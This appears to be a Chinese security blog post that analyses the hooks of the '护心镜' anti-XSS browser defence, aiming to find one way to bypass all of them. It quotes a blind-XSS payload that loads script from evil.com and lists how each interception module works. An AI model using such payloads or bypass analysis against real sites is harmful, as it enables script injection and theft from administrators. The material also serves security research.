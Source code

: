 举个例子：当一个 XSSer 对某后台进行盲打时，嵌入了一串代码：

```
#!html
<script src=//evil.com/evil.js></script>
```

当管理员登录后台时候触发了这串代码，由于加载了“evil.com”这个未知域名的 js 脚本，护心镜弹出危险警告，在用户确认后对脚本进行阻拦。

从之后的代码分析中了解，HOOK 函数实现了以下功能：

| 模块               | 功能                                               |
| :----------------- | :------------------------------------------------- |
| Hook_CreateElement | 对 CreateElement 方法进行 Hook                     |
| Hook_Image         | 对Image对象产生的实例进行 Setter 和 Getter 的 Hook |
| Hook_Source        | 对页面 DOM 进行监控，对新生成的标签进行来源检测    |
| Hook_Attribute     | 对元素的 setAttribute 方法进行 Hook                |
| Hook_Element       | 对元素的 Setter 和 Getter 进行 Hook                |
| Hook_Cookie        | 对 Cookie 的读写接口进行了 Hook                    |
| Hook_Xsstester     | 对常见的 alert、prompt 方法等进行 Hook             |
| Hook_CSRFWebshell  | 对通过 CSRF 上传 Webshell 进行拦截                 |
| Send               | 对护心镜接口发送报告                               |

# 0x02 快速寻找通杀之法

------

扫一遍代码，发现每个模块都有相应的弱点，但在那之前，

每个人都想知道快速通杀所有模块的方法，那么如何快速找到通杀方法？

最好的方式是看看他们有什么共通点：

（由于只有4个模块涉及拦截，那么就看看他们是怎么实现的）

```
+ Hook_CreateElement
  1. 重写document.createElement
  2. 重写createElement创建元素的setter和getter
  3. 对Setter进行tag（标签）匹配，然后通过Check_domain进行白名单匹配
  4. 通过confirm通知，确定是否拦截
+ Hook_Image
  1. 重写Image
  2. 重写new Image 对象的getter和setter
  3. Check_domain白名单匹配
  4. 通过confirm通知，确定是否拦截
  5. 若不拦截：通过this.setAttribute实现 Setter 的赋值
+ Hook_Source
  1. 通过 MutationObserver 对 DOM 进行监听
  2. 一旦 DOM 发生变化，对新增 Nodes（节点）进行校验
  3. 通过tag匹配和Check_domain白名单匹配
  4. 通过confirm通知，确定是否拦截
  5. 若拦截则删除该节点，否则放行
+ Hook_CSRFWebshell
  1. 重写 XMLHttpRequest.prototype.send
  2. 正则匹配白名单
  3. 通过confirm通知，确定是否拦截
```
